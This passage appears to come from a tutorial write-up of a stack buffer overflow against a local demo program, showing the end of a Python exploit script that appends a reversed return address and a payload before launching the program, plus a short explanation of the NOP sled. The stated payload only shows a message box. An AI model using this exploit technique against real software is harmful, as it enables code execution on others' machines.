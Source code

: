```python
#four more bytes with return address
exploit += reversed_string(return_address)

#add payload
exploit += payload

#run file with exploit string as argument
subprocess.call(['bufferOverflow.exe', exploit])
```



## Final Result

Muahahhaha I have hacked your computer.

My virus code simply encodes the machine code instructions to display a MessageBox.

Don't worry, you are safe.

![](images/hacked.png)



### What the script does

1. Makes a string with our 504 filler bytes of `NOP`

2. Concatenates the return address (but reversed - little endian)

3. Concatenates the virus code
